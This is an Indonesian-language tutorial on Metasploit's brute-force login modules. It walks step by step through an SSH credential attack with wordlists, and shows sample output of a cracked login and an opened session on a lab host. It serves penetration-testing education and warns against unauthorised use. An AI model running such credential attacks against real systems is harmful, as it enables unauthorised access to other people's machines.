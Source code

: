 # ModulBruteforce Login di Metasploit

Metasploit Framework memiliki banyak modul auxiliary yang mendukung bruteforce login terhadap berbagai layanan seperti `SSH`, `FTP`, `HTTP`, `SMB`, `dll`. Modul ini berguna untuk menguji kekuatan kredensial yang digunakan oleh target dan sering dipakai dalam fase credential access saat penetration testing.

## A. Modul-Modul Umum Bruteforce di Metasploit

| Layanan	| Modul Bruteforce |
|:--:|:--:|
| SSH	| `auxiliary/scanner/ssh/ssh_login` |
| FTP	| `auxiliary/scanner/ftp/ftp_login` |
| Telnet | `auxiliary/scanner/telnet/telnet_login` |
| SMB	| `auxiliary/scanner/smb/smb_login` |
| HTTP | `auxiliary/scanner/http/http_login` |

## B. Bruteforce SSH dengan `ssh_login`

**Langkah-langkah:**

1. Gunakan Modul:

   ```
   use auxiliary/scanner/ssh/ssh_login
   ```

2. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

3. Setting Target dan Payload:

   ```
   set RHOSTS <IP TARGET>
   ser RPORT 22
   set USER_FILE /usr/share/wordlists/user.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set BRUTEFORCE_SPEED  5
   set THREADS 1
   set VERBOSE true
   run
   ```

   Kalu berhasil output-nya akan sepertin ini:

   ```
   [-] 192.168.1.27:22 - Failed: 'root:'
   [-] 192.168.1.27:22 - Failed: 'debian:admin'
   [-] 192.168.1.27:22 - Failed: 'debian:root'
   [+] 192.168.1.27:22 - Success: 'debian:debian' 'uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)       Linux debian 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64 GNU/Linux '
   [*] SSH session 1 opened (192.168.1.42:38455 -> 192.168.1.27:22) at 2025-05-09 16:16:12 +0700
   ```

   Hasil Brute Force akan otomatis disimpan dalam database Metasploit jika aktif:

   ```
   creds
   ```

   Disini ada sesi Meterpreter yang terbuka yakni sesi dengan ID `1`, kita bisa masuk ke sesi Meterpreter-nya dengan cara:

   ```
   session -i 1
   ```

   Dan selamat kamu sudah masuk kedalam sistem terget:

   ```
   msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
   [*] Starting interaction with 1...

   pwd
   /home/debian
   ```

   Disini kamu bisa melakukan banyak perintah dan banyak hal.

   **Catatan Opsi Penting**

   | Opsi | Deskripsi |
   |:--:|:--:|
   | `RHOSTS` | IP target  |
   | `RPORT` | Port SSH |
   | `USERNAME` | Gunakan satu username (jika diketahui)  |
   | `PASSWORD` | Gunakan satu password (jika diketahui)  |
   | `USER_FILE` | File Wordlist yang berisi username  |
   | `PASS_FILE` | File Wordlist yang berisi password  |
   | `BRUTEFORCE_SPEED` | Kecepatan proses Brute Force |
   | `THREADS`	| Jumlah thread paralel untuk mempercepat proses  |
   | `VERBOSE` | Menampilkan output lebih detail (debugging)

## Tips Tambahan

- Gunakan wordlist yang relevan (hindari terlalu besar agar tidak lambat).
- Gunakan `services` untuk melihat layanan yang bisa ditargetkan:

  ```
  services -p 22 -u
  ```

- Bisa digabung dengan hasil `Nmap` yang sudah diimpor ke Metasploit.

> Jangan gunakan teknik  Brute Force ke sistem yang bukan milikmu atau tanpa izin.

